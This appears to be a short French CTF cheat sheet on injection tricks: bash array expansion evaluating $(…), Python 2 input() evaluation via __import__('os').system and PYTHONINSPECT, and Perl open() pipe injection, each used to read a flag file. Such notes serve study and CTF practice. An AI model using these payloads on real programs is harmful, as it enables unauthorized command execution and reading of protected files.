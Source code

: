## [Bash Broken input](#Bash-Broken-input)


<a name="Bash-Broken-input"></a>
Dans un script bash, on peut évaluer des choses même si ces choses là sont dans des ' .

Basiquement, lorsqu'on met une variable comme FOO=42 et qu'on l'invoque avec '$FOO', la réponse sera : $FOO et non pas 42.

Par contre, bash évalue et expanse ce quil y a à l'intérieur de tableau.

Donc par exemple, si on fait FOO="x[$(echo toto)]" et qu'on fait '$FOO' on aura : toto.

Avec python 2.7.17 on peut acceder a n'importe quelle fonction dans le script, ou bien importer une fonction via __import__:

__import__('sys').stdout.write(open("flag.txt", 'r').read())
__import__('os').system('cat flag.txt> /tmp/flag.txt')

=> GOTO flag.txt

Ou bien :

#!/usr/bin/python2

import sys

def ultrasecret():
    open("supersecret", 'r').read()
    sys.exit(1)

try:
    p = input("Please enter password : ")
    

Please enter password : ultrasecret()

PYTHONINSPECT=YesMyLord ./xx
Please enter password : blabla !
Traceback (most recent call last):
<SNIP>
>>> f = open("flag")
>>> print f.readlines()
['...']


Perl command Injection :

The open() function can be used to pass a command :
# ex : “| cat flag.txt |”
